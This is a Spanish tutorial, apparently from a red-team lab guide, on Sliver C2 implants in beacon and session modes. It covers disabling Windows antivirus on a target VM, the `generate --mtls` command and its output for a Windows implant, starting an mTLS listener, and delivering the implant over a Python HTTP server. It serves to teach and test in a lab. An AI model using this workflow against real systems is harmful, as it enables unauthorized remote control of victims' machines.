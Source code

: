 # Beacons y Sessiones

## Introducción

Esta entrada enseña a cómo utilizar los llamados <mark style="color:green;">**implantes**</mark> para controlar remotamente una máquina destino desde un servidor Sliver C2. Para familiarizarnos con los conceptos básicos de Sliver, se creará una máquina de destino (Windows) para elaborar diversos ataques. A continuación, veremos cómo entregar y utilizar un agente C2, que Sliver denomina "implante". Los implantes pueden operar en dos modos diferentes.

### Session mode

Si se utilizan en modo sesión, los implantes crean una <mark style="color:green;">**conexión de red permanente**</mark> entre el objetivo y el servidor C2. Este modo te permite escribir comandos y obtener respuesta inmediata, casi como si estuvieras en una sesión SSH o PowerShell Remoting. Esto resulta muy cómodo para trabajar, pero, por supuesto, este tipo de conexiones de larga duración pueden hacer que algún día se levanten el equipo azul sospeche.

### Beacon mode

Si se utilizan en modo beacon, los implantes crean <mark style="color:green;">**conexiones de red temporales**</mark> con el objetivo a intervalos regulares. Entre conexiones, los implantes entran en reposo. Si interactúas con una beacon, tus comandos no se ejecutarán inmediatamente. En su lugar, se pondrán en cola y se ejecutarán la próxima vez que el beacon se conecte. Esto es un poco menos conveniente, ya que tendrás que esperar a la respuesta, pero también puede parecer un poco menos sospechoso ante detecciones (dependiendo del entorno, por supuesto).



Sliver admite diferentes tipos de conexiones de red. Todas pueden utilizarse para beacon y session. Por ahora, sólo utilizaremos conexiones TLS mutuas (mTLS). En siguientes entradas exploraremos otros protocolos C2.

El gran plan para este post es simple: usar Sliver para generar implantes en modo beacon y en modo session, entregarlos al objetivo en forma de descarga web, y luego ejecutar los implantes e interactuar con ellos desde el servidor C2.

Para ello, son necesarios algunos preparativos. Tendrás que montar un laboratorio sencillo con un servidor C2 y una máquina objetivo.&#x20;

## Laboratorio

Esta primera sección trata sobre la preparación de la configuración del laboratorio. Asumo que has pasado antes por la parte de [<mark style="color:green;">**Instalación**</mark>](instalacion.md) y tienes una máquina virtual con Sliver instalado en ella. Esta máquina se llamará el servidor C2.

Lo que falta es el objetivo que queremos controlar con un agente C2. Dado que Windows es el sistema operativo (SO) más popular, vamos a configurar una VM Windows para ello.

Mi configuración personal para este post se ve como se muestra a continuación. He añadido mis IPs locales para que sea más fácil seguir los fragmentos de código. También se incluyen los puertos para los dos servicios de red. El servidor C2 servirá archivos con `python http.server` en el puerto 8000 y aceptará conexiones C2 en el puerto 8888.

{% code title="Esquema" overflow="wrap" %}
```
+-------------------+                         +-------------------+
|                   |         Download binary |                   |
|     C2 Server     +--8000 <-----------------+      Target       |
|      (Linux)      |                         |     (Windows)     |
|                   |         C2 Connection   |                   |
|    172.19.0.128   +--8888 <-----------------+    172.19.0.131   |
|                   |                         |                   |
+-------------------+                         +-------------------+
```
{% endcode %}

### Preparación del objetivo

Vaya a [<mark style="color:green;">**Microsoft Windows Evaluation Center**</mark>](https://www.microsoft.com/en-us/evalcenter) y descargue una copia de windows, en mi caso usaré una copia de Windows 10 Enterprice. Use esta imagen para crear su propia Windows WM.

Solo requiere una instalación básica, no se preocupe si tiene una versión diferente a la mostrada en  este blog. Después de la instalación, desactive el antivirus de windows, ya que en esta sección no se cubrirá la evasión de sistemas EDR o Antivirus. Puede hacerlo abriendo la GUI de windows “Virus & Threat Protection” y deshabilitar todas las protecciones. Debe quedar algo así:

<figure><img src="https://dominicbreuker.com/img/25_sliver_c2_beacons_and_sessions/av_off_gui.png" alt=""><figcaption></figcaption></figure>

## Generación de implante

Para generar un implante C2 con sliver, solo ocupe el comando `generate`. Si tiene dudas de todas las opciones que puede modificar utilice la ayuda con `generate --help`. A qui va una explicación de las banderas para generar un implante con mTLS:

* `--mtls 172.19.0.128`: Especifica el protocolo de comunicación que el implante usará en este caso TLS multiple. Otras banderas que se pueden utilizar son `--wg` para WireGuard, `--http` para HTTP(S) o `--dns` para DNS-based C2.
* `--os windows`: Especifica el sistema operativo objetivo el cual va a correr el implante, por defecto tiene windows y no es necesario especificarlo. MacOS Y Linux también son soportados.
* `--arch amd64`: Especifica que queremos un implante de 64 bits (también por defecto, puede omitirse). Utilice `--arch 386` para un implante de a 32-bit.
* `--format exe`: Especifica que queremos un archivo ejecutable (de nuevo por defecto). Otras opciones son , `--format service` para bibliotecas dinámicas,  `--format shared` para un binario de servicio de Windows (puede usarse con el comando `psexec`) y `shellcode` (sólo windows).
* `--save ~/Documents/sliverTest`: Especifica donde guardar el implante

{% code overflow="wrap" %}
```bash
generate --mtls 172.19.0.128 --os windows --arch amd64 --format exe --save ~/Documents/sliverTest/
```
{% endcode %}

Debe verse algo parecido a esto:

{% code overflow="wrap" %}
```bash
sliver > generate --mtls 172.19.0.128 --os windows --arch amd64 --format exe --save ~/Documents/sliverTest/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 37s
[*] Implant saved to /home/kali/Documents/sliverTest/GROSS_DRIVER.exe
```
{% endcode %}

Sliver generará un implante con nombre aleatorio si no se especifíca, en mi caso GROSS\_DRIVER.exe es el candidato.

### mTLS Listerner

Luego de generar el implante, se requiere levanta un mTLS listener, esto es muy simple, solo se tiene que ocupar el comando `mtls` y luego el comando `jobs` para lista los listeners y sobre que puerto corren:

```
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #2

sliver > jobs

 ID   Name   Protocol   Port   Stage Profile 
==== ====== ========== ====== ===============
 2    mtls   tcp        8888                 
```

### Deliver and execute

Para la entrega (deliver) y ejecución del malware, se optó por el uso de `python -m http.server` en la carpeta donde el implante se encuentra, y luego en la mpaquina victima solo se tiene que descargar y ejecutar el implante.







